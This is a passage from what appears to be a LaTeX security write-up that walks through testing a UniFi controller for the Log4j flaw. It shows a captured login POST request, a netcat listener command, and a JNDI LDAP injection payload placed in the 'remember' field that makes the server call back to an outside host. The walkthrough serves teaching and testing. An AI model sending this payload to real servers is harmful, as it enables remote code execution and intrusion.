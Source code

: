 Then, we access the \texttt{https://example-domain.ui.com:8443} domain and get the following page:

\begin{figure}[H]
    \includegraphics[width=15cm]{figures/unifi_initial_dashboard.png}
    \caption{UniFi's initial dashboard.}
    \label{fig:log4j_unifi_initial_dashboard}
\end{figure}

As mentioned earlier, we need to target a field we know will be logged by Apache Log4j using a malicious JNDI query. In our case, it is the \texttt{remember} field of the POST request.

\begin{lstlisting}[caption=UniFi Dashboard POST Request.,numbers=none,label={lst:unifi_post_request}]
POST /api/login HTTP/1.1
Host: example-domain.ui.com:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage
Content-Type: application/json; charset=utf-8
Origin: https://example-domain.ui.com:8443
Content-Length: 76
Connection: keep-alive
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
 
{"username":"myuser","password":"mypassword","remember":false,"strict":true}
\end{lstlisting}

Then we must test if the web application is vulnerable to the Log4j attack. First, we listen for connections on port 9999 using \texttt{netcat} with: \texttt{nc -lnvp 9999}. From the example request of Listing \ref{lst:unifi_post_request} we only need to change the \texttt{remember} field to \texttt{\$\{jndi:ldap://172.152.0.2:9\\999/whatever\}} and issue the modified POST request:

